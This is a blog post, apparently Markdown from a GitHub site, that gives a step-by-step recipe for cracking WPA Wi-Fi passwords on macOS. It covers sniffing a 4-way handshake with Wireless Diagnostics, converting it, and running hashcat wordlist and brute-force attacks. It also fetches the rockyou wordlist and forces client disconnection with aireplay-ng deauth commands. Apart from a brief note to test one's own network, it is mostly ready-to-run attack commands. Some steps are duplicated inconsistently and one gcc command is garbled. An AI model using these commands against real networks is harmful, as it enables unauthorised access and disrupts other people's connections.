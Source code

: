 ```yaml
---
title: WiFi Cracker in Mac OS X
date: 2020-01-12 23:04:34
categories: [Basic, Security, Tools]
tags:
---
```


Mac OS X comes with a suite of wireless diagnostic tools. To open them, hold down the option key on your keyboard and click on the Wi-Fi icon in the menu bar. Then click "Open Wireless Diagnostics..." and then click on Window > Scan. Find the target network, note its channel and width.

<!--more-->

# Capture a 4-way Handshake
With Wireless Diagnostics open, click on Window > Sniffer. Select the channel and width that you found in the previous step.
Now you'll need to wait for a device to connect to the target network. If you are testing this on your network (which you should be), reconnect a wireless device to capture a handshake.
Once you think you've got a handshake, click Stop.
The .wcap capture file will either be saved to your Desktop or /var/tmp/ depending on your operating system version.
Convert the capture file to .hccapx by uploading it to https://hashcat.net/cap2hccapx/. If you captured any handshakes, the site will start downloading a .hccapx file. No download will be prompted if you did not.

* With Wireless Diagnostics open, click on Window > Sniffer. Select the channel and width that you found in the previous step.
* Now you'll need to wait for a device to connect to the target network. If you are testing this on your network (which you should be), reconnect a wireless device to capture a handshake.
* Once you think you've got a handshake, click Stop.
The .pcap capture file will either be saved to your Desktop or /var/tmp/ depending on your operating system version.
* Convert the capture file to .hccapx by using https://github.com/hashcat/hashcat-utils in src folder compile to bin.
  
`gcc -o cap2hccapx cap2hccapx.c" and then run it: "./cap2hccapx"`

# Crack the password with hashcat

```
brew install hashcat
hashcat -m 2500 capture.hccapx wordlist.txt
# or brute force
hashcat -m 2500 -a3 capture.hccapx ?d?d?d?d?d?d?d?d
```

# Wordlist - Download the 134MB rockyou dictionary file

```
curl -L -o dicts/rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

```
Other bigger candidates: 
* https://github.com/berzerk0/Probable-Wordlists/tree/master/Real-Passwords/WPA-Length
* https://xa.to/10m

# Deauth Attack

## Get deauth Tool
```
brew install aircrack-ng
```
Find `aireplay-ng` in sbin.

```
# -0 2 specifies we would like to send 2 deauth packets. Increase this number
# if need be with the risk of noticeably interrupting client network activity
# -a is the MAC of the access point
# -c is the MAC of the client
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0
```
You can optionally broadcast deauth packets to all connected clients with:
```
# not all clients respect broadcast deauths though
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 mon0
```


reference:

https://github.com/brannondorsey/wifi-cracking
https://louisabraham.github.io/articles/WPA-wifi-cracking-MBP.html